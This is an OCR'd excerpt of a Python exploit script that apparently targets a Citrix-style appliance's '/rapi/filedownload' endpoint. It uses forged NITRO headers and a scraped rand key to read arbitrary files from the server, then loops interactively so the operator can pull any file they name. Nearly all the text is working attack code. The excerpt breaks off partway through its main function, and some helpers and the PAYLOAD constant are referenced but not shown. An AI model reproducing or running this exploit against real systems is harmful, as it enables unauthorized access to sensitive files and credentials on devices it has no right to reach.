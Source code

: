     def get_rand(base_url, session):
        url = '{0}/menu/stc'.format(base_url)
        proxies = {"http":"http://127.0.0.1:8080/"}
        r = session.get(url=url, verify=False,proxies=proxies)

        for line in r.text.split('\n'):
            if 'var rand =' in line:
                rand = line.split('"')[1]
                return rand

    def do_lfi(base_url, session, rand):
        url = '{0}/rapi/filedownload?filter=path:{1}'.format(base_url, PAYLOAD)

        headers = {
            'Content-Type':'application/xml',
            'X-NITRO-USER':random_string(),
            'X-NITRO-PASS':random_string(),
            'rand_key':rand
        }

        data = '<clipermission></clipermission>'
        proxies = {"http":"http://127.0.0.1:8080/"}
        r = session.post(url=url, headers=headers, data=data, verify=False,proxies=proxies)
        response_str = json.dumps(r.headers.__dict__['_store'])

        if r.status_code == 406 and "Content-Disposition" in response_str and r.headers["Accept-Ranges"] == "bytes" and r.headers["Pragma"] == "private":
            print ("[+] Send Success!")
            print ("_"*80,"\n\n")
            print (r.text)
            print ("_"*80)
            while 1:
                PAYLOAD1 = quote(input("\n[+] Set File= "),"utf-8")
                url = '{0}/rapi/filedownload?filter=path:{1}'.format(base_url, PAYLOAD1)
                r = session.post(url=url, headers=headers, data=data, verify=False,proxies=proxies)
                if r.status_code == 406 and "Content-Disposition" in response_str and r.headers["Accept-Ranges"] == "bytes" and r.headers["Pragma"] == "private":
                    print ("_"*80,"\n\n")
                    print (r.text)
                    print ("_"*80)
                # pass
        else:
            print ("[+] Error!")

    def main(base_url):
        print ('[-] Creating session..')
        session = requests.Session()
        create_session(base_url, session)
        print ('[+] Got session: {0}'.format(session.cookies.get_dict()['SESSID']))

        print('[-] Fixing session..')
        fix_session(base_url, session)
